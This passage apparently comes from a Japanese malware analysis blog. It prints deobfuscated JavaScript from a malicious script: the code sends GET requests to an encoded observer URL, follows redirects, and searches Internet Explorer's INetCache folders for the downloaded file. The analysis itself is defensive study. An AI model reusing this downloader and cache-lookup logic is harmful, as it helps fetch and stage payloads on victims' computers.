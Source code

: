 ```js
				http_xml["send"]();
			}
		}else{
			http_req["open"]("GET", observer_url_64,![]);
			http_req['send']();
			if(http_req["status"]>=0x12c){ // 12c is 300
				var res_hdr_loc=http_req["getResponseHeader"]("Location");
				http_xml["open"]("GET",res_hdr_loc,![]);
				http_xml["send"]();
			}else{
				http_xml["open"]("GET",observer_url_64,![]);
				http_xml["send"]();
			}
		}
	}catch(_0x1a4e1f){
		window["close"]();
	}
}
```

ただ、ステータスコードが300を想定している以上、おそらく処理は完了とはなりません。そのため、inetcacheファイルを見ているのでしょう。  
次はinetcache内のファイルを見て、存在するかどうかをチェックする処理が行われています。これは`FIND_FILE`という関数で処理されています。  
```js
function FIND_FILE(arg1){
	try{
		var INetCache1=wShell["ExpandEnvironmentStrings"]("%userprofile%\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5");
		var INetCache2=wShell["ExpandEnvironmentStrings"]("%userprofile%\AppData\Local\Microsoft\Windows\INetCache\IE");
		var path_list=arg1['split']('/');
		var path_count=0x2;
		var _0x1b83a4='';
		while(path_list[path_count]){
			path_count++;
		}
		var lastpath=path_list[path_count-0x1];
		fnamelist=lastpath[split]('.');
		var find_result=R_FIND(INetCache2,fnamelist[0x0]);
		if(find_result!=''){
			return find_result;
		}else{
			find_result=R_FIND(INetCache1,fnamelist[0x0]);
			if(find_result!=''){
				return find_result;
			}else{
				return '';
			}
		}
	}catch(_0x14b351){
		window["close"]();
	}
}
```
